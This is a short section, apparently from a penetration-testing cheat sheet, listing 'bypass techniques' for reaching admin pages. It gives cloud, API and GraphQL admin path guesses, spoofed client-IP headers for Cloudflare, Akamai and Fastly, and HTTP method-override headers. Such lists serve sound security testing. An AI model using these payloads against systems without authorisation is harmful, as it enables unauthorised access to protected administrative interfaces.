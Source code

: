 ## 🔥 Modern Bypass Techniques

### Cloud Platform Bypasses
```bash
# AWS Specific
/.aws/admin
/s3/admin
/lambda/admin
/api-gateway/admin

# Azure Specific
/.azure/admin
/blob/admin
/functions/admin

# Google Cloud Specific
/.gcp/admin
/cloud-storage/admin
/app-engine/admin
```

### CDN Bypasses
```bash
# Cloudflare
X-Forwarded-For: 127.0.0.1
CF-Connecting-IP: 127.0.0.1
CF-IPCountry: US

# Akamai
True-Client-IP: 127.0.0.1
Akamai-Origin-Hop: 1

# Fastly
Fastly-Client-IP: 127.0.0.1
```

### API & GraphQL Bypasses
```bash
# API Versioning
/api/v1/admin
/api/v2/admin
/api/beta/admin

# GraphQL
/graphql/admin
/graphiql/admin
/api/graphql/admin

# Method Override
X-HTTP-Method-Override: GET
X-HTTP-Method: GET
```

